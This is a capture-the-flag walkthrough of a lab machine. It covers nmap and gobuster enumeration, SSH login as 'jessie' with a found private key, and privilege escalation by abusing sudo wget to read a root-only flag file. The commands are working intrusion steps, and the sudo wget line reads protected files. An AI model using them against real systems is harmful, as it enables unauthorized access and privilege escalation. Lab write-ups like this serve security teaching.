






## network enumaration
- nmap scan
```
nmap -sVC -p- 10.48.186.30
```
- result
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- check webpage



- use gobuster to enumrate directory
```
gobuster dir -u "http://10.48.186.30/" -w /usr/share/wordlists/dirb/big.txt -t 64
```



- checked site can't find form or any parameter in url
- maybe enumarate more

```
gobuster dir -u http://10.48.186.30/sitemap/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt -q
```




- i have private key

- but i still don't have username for ssh
## user enumaration
- on about page i found few username


- i tried all did not work
- check source code
- on webpage i found this comment
```
 <!-- Jessie don't forget to udate the webiste -->
```
- use this credentials
```
chmod 400 id_rsa
ssh jessie@10.48.186.30 -i id_rsa
```


## privilage escalation



- so i tried file read GTFO

```
sudo wget -i /root/root.txt
No URLs found in /root/root.txt.
sudo wget -i /root/root_flag.txt
--2026-03-09 23:53:09--  http://b1b968b37519ad1daa6408188649263d/
Resolving b1b968b37519ad1daa6408188649263d (b1b968b37519ad1daa6408188649263d)... failed: Name or service not known.
```

- & we have root flag
*****************************************